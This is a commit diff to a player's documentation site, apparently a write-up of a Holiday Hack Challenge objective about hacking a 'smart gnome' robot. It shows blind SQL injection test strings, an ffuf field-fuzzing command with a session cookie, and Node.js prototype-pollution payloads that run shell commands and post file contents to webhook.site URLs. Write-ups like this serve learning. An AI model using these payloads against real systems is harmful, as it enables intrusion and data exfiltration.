

Before and after one commit to knight-scott/HHC_2025, an MkDocs documentation site: the page built from docs/objectives/o20.md, in a window 1280 px wide and 1400 px high, scrolled down 5665 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
o20 updates

````diff
--- a/docs/objectives/o20.md
+++ b/docs/objectives/o20.md
@@ -89,65 +89,130 @@ I found two usernames that are not available, meaning we have two targets that w
 
 #### Password
 
-With half of the login found, we just have to figure out the password now. I fumbled around quite a bit for this before a comment from a helpful community member put me on the right track. The name of the password field is needed
+With half of the login found, we just have to figure out the password now. I fumbled around quite a bit for this before a comment from a helpful community member put me on the right track.<br/>
+The database API is using SQL like syntax and while I was trying to test various exploits I was able to cause a 500 error. It was pointed out to me that any time you are able to cause create a failure in a database by manipulating the query, it is almost certainly a sign of SQL Injection.<br/>
+I was able to confirm a boolean-based blind SQL injection vulnerability with the known username and remembering that I had triggered a syntax error when I was fingerprinting the database.
 
-This section explains the different steps taken to solve the challenge. Try to find a good balance between providing sufficient detail and not overloading the reader with too much information. Use [admonitions](https://squidfunk.github.io/mkdocs-material/reference/admonitions/), [images](https://squidfunk.github.io/mkdocs-material/reference/images/), [diagrams](https://squidfunk.github.io/mkdocs-material/reference/diagrams/), [code blocks](https://squidfunk.github.io/mkdocs-material/reference/code-blocks/), and [tables](https://squidfunk.github.io/mkdocs-material/reference/data-tables/) to highlight and structure important information or provide additional clarification.
+!!! example
+    I used BurpSuite Repeater to craft injection payloads to confirm the vulnerability.
+    ```bash title="Test Payload"
+    <USERNAME>" AND "x"="x
+    ```
 
-### Admonitions
+    - Response: `"available":false`. This is a TRUE condition as the username exists and *x* does in fact equal *x*.
 
-!!! warning "Anchor the decorations"
-    Ensure that all festive decorations, especially electrical ones, are securely anchored. We don’t want them floating off into the tropical sunset!
+    ```bash title="Negative Test"
+    <USERNAME>" AND "x"="y
+    ```
 
-!!! info "Palm tree lighting tip"
-    While on the island, make sure to hang your Christmas lights on a palm tree. It’s not only festive but also a great beacon for Santa to find you!
+    - Response: `"available":true`. This is a FALSE condition as the username is known to exist and *x* does NOT equal *y*.
 
-### Images
 
-![Terminal output](../img/objectives/o5/terminal_output_o5.png)
+Using this with FFuF, I was able to enumerate the database field names.
 
-### Diagrams
-
-```mermaid
-sequenceDiagram
-  autonumber
-  Santa->>Elf: Hey Elf, is the Naughty-or-Nice List secured?
-  loop Security Check
-      Elf->>Elf: Ensuring list is encrypted
-  end
-  Note right of Elf: Using candy-cane encryption!
-  Elf-->>Santa: Safe and sound, Santa!
-  Santa->>Reindeer: Rudolph, did you patch the sleigh's software?
-  Note left of Reindeer: Checking for reindeerOS updates...
-  Reindeer-->>Santa: All patched and glowing bright!
+```bash title="Password Field Fuzzing"
+ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt:FIELD \
+     -u "https://hhc25-smartgnomehack-prod.holidayhackchallenge.com/userAvailable?username=bruce%22%20AND%20IS_DEFINED(c.FIELD)%20AND%20%22x%22%3D%22x" \
+     -H "Cookie: connect.sid=s:s%3Ah1vGP7HRJmNboHd0DOw7ijHynr2V-DY_.EFrv6aGTFvqND1%2FUYr6zMz1tRHuqtUVka9B%2FgS%2B8H1Q" \
+     -H "Accept: application/json" \
+     -mr '"available":false' \
+     -fw 17
 ```
 
-### Code blocks
+!!! success
+    ```bash title="Results" hl_lines="3"
+    category
+    id
+    digest
+    Category
+    ID
+    username
+    ```
+    That's what I needed! With the right field, I can enumerate the contents. I start with extracting the digest length. It took some trial and error but I eventually worked with an LLM to develop a script first to determine the digest length, then to [extract](../artifacts/objectives/o20/digest_enum.py) the digest field's content, a 32 character hash. I plugged the hash into [Crackstation.net](https://crackstation.net/) and finally got a password!!
 
-```bash linenums="1" hl_lines="7" title="Countdown script (with line 7 highlighted)"
-#!/bin/bash
-echo "Christmas Holiday Countdown"
+This is Act 3 though and logging in isn't going to be enough this time!
 
-days_until_xmas=$(($(date -d "Dec 25" +%j) - $(date +%j)))
+![UI](../img/objectives/o20/hackagnome.png)
 
-if [ $days_until_xmas -ge 0 ]; then
-  echo "Only $days_until_xmas days until Christmas!"
-else
-  echo "Christmas has passed! Hope you had a great time!"
-fi
+Logged into the Smart Gnome Control Center we have a split screen. One side has the Smart Gnome Statistics with information about the robot such as the name, model, and other stats.
+
+![stats](../img/objectives/o20/stats.png)
+
+On the other side is a security camera feed from the factory that shows the robot that is our target. Now that we are logged in, the objective is to hack the smart gnome and use it to power off the factory.
+
+![cam](../img/objectives/o20/cam.png)
+
+#### CANBus
+
+The security camera has a controls key above the image with instructions on how to move the gnome bot with WASD or directional arrows. There are also mouse instructions for operating the camera with zoom and pan.<br/>
+As usual, I begin by exploring the page. I attempt movement with both options and received errors on the camera:
+
+![error](../img/objectives/o20/canbus-error.png)
+
+When looking in BurpSuite however, it appears as if the command worked??
+
+![burp](../img/objectives/o20/burpsuit_ctrl.png)
+
+The bot didn't move though...<br/>
+Looking at the [hint](#hints) I get the clue about protype pollution and read up on this vulnerability.<br/>
+After many trial and error attempts I figure out the the pollution trigger is the `/stats` page refresh and get a webhook!<br/>
+Using the `/ctrlsignals` endpoint, I encoded the payload in CyberChef and used BurpSuite Repeater to send it, then the refresh button on the Gnome Statistics page to trigger.
+
+```json title="Unencoded Prototype Pollution RCE Payload"
+{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('curl https://webhook.site/17eeae7a-42ab-4ca9-bfb2-c55d3a06c747');x"}
 ```
 
-### Tables
+![burp](../img/objectives/o20/burp-success.png)
 
-| Activity             | Santa's Verdict       | Elf Comments                    |
-| :------------------- | :-------------------- | :------------------------------ |
-| Iceberg Surfing      | Risky Business        | "Lost three surfboards!"        |
-| Polar Bear Hugs      | Approach with Caution | "Fluffy but... brisk."          |
-| Snow Fort Building   | Highly Recommended    | "Elf-sized doorways only."      |
-| Aurora Light Chasing | Magical Experience    | "Better than Christmas lights!" |
-| Penguin Parade       | Absolute Must-See     | "They're oddly organized!"      |
+With this, I was able to begin enumerating.
+
+```bash title="Listing the Directory Contents"
+total 84
+drwxr-xr-x  1 root root  4096 Nov 21 05:31 .
+drwxr-xr-x  1 root root  4096 Nov 21 05:31 ..
+-rw-r--r--  1 root root   283 Oct  1 17:01 .env
+-rw-r--r--  1 root root  6957 Oct  1 17:01 README.md
+-rwxr-xr-x  1 root root  3310 Oct  1 17:01 canbus_client.py
+drwxr-xr-x 81 root root  4096 Oct 15 15:20 node_modules
+-rw-r--r--  1 root root 33884 Oct 15 15:20 package-lock.json
+-rw-r--r--  1 root root   359 Oct  1 17:01 package.json
+-rw-r--r--  1 root root  9867 Oct  1 17:01 server.js
+drwxr-xr-x  2 root root  4096 Oct  1 17:01 views
+```
+
+Lets grab the [README.md](../artifacts/objectives/o20/README.md) and [python](../artifacts/objectives/o20/canbus_client.py) code!
+
+```json title="Get Python Payload"
+{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cat /app/*.py | base64 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
+```
+
+```json title="Get README.md"
+{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cat /app/*.md | base64 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
+```
+
+I also reviewed `.env` for config information and `server.js` for how commands are processed. The `README.md` and `canbus_client.py` were the most informational though. In the python code I found the same canbus codes that returned with our movement commands.<br/>
+Using `cansend`, I tested various potential canbus commands until I found one that resulted in movement of the robot!
+
+```json title="Cansend Testing"
+{"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('cansend gcan0 200# && cansend gcan0 201# && cansend gcan0 202# && cansend gcan0 203# 2>&1 | curl -X POST --data-binary @- https://webhook.site/17eeae7a-42ab-4ca9-bfb2-c55d3a06c747');x"}
+```
+
+I narrowed down the directional commands and then used `sed` to modify the `canbus_client.py`.
+
+| CAN ID  | Direction |
+| ------- | --------- |
+| `0x202` | down      |
+| `0x203` | left      |
+| `0x204` | right     |
+| `0x201` | up        |
+
+```json title="Python Code Edit"
+GET /ctrlsignals?message={"action":"update","key":"__proto__","subkey":"outputFunctionName","value":"x;process.mainModule.require('child_process').execSync('sed -i \"s/0x656/0x201/g; s/0x657/0x202/g; s/0x658/0x203/g; s/0x659/0x204/g\" /app/canbus_client.py 2>&1 | curl -X POST --data-binary @- https://webhook.site/debde32f-99e3-4c64-b786-865a6b862801');x"}
+```
 
 !!! success "Answer"
-    Insert the answer to the objective here.
+    With `canbus_client.py` edited, I was able to use the directional controls to navigate the robot to the switch and shut down the factory!
+    ![success](../img/objectives/o20/hack-gnome.png)
 
 ## Response
 
````
Also changed, not shown: docs/artifacts/objectives/o20/README.md (added, +60 -0 lines), docs/artifacts/objectives/o20/canbus_client.py (added, +81 -0 lines), docs/artifacts/objectives/o20/digest_enum.py (added, +67 -0 lines), docs/img/objectives/o20/burp-success.png (added), docs/img/objectives/o20/burpsuit_ctrl.png (added), docs/img/objectives/o20/cam.png (added), docs/img/objectives/o20/canbus-error.png (added), docs/img/objectives/o20/crackstation.png (added), docs/img/objectives/o20/ffuf.png (added), docs/img/objectives/o20/hack-gnome.png (added), docs/img/objectives/o20/hackagnome.png (added), docs/img/objectives/o20/stats.png (added).
